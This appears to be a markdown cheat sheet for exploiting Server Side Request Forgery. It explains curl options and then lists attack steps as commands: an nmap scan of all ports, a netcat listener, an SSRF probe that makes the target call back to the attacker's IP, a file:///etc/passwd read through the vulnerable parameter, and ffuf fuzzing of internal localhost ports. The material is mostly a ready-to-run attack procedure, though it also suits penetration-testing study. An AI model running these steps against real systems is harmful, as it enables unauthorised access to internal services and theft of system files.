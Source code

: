 # Server Side Request Forgery
---

Curl Parameters Description.

**-i**  : The -i tells cURL to include HTTP response headers in the output.

**-s** : Tells cURL to do the task in silent/quiet mode. (Wont Show Progress meter or error messages)

**-L** :  This tells cURL to redo any request that has any redirection pages, and when included with the **-i** it will show headers from all request pages.


## Reconnaissance

**Nmap**

```
nmap -sT -T5 --min-rate=1000 -p- TARGETIP
```

**cURL**
```
curl -i -s http://TARGETIP
```

```
curl -i -s -L http://TARGETIP
```

**Ncat**

```
nc -nvlp 8080
```

**Test for SSRF Vulnerability**
```
curl -s -i "http://IPOFTARGET/load?q=http://YOURIP:8080"
```

**Extracting Local Files from target**
```
curl -i -s "http://IPOFTARGET/redirectstring=file:///etc/passwd"
```

## Finding More Information
**Generate Wordlist of Ports**

```
for port in {1..65535};do echo $port >> ports.txt;done
```

**Find Non-existent response size using random port**
```
curl -i -s "http://IPOFTARGET/redirectstring=http://127.0.0.1:12"
```

> When the curl gives in output keep note of the number beside the **Content-Length** string.

**ffuf**
```
ffuf -w ./ports.txt:PORT -U "http://IPOFTARGET/redirectstring=http://127.0.0.1:PORT" -fs 30
```

>The number that is beside the Content-Length should go after -fs

> ffuf should show any ports that are valid by showing that it has received an response.

**Interact with target**
```
curl -i -s "http://IPOFTARGET/redirectstring=http://127.0.0.1:<Valid Portfromffuf>"
```

Check if we can find any sort of location information (i.e The Name of the webserver host, and if it has some internal app in the backed that we can exploit)
```
curl -i -s -L http://IPOFTARGET
```
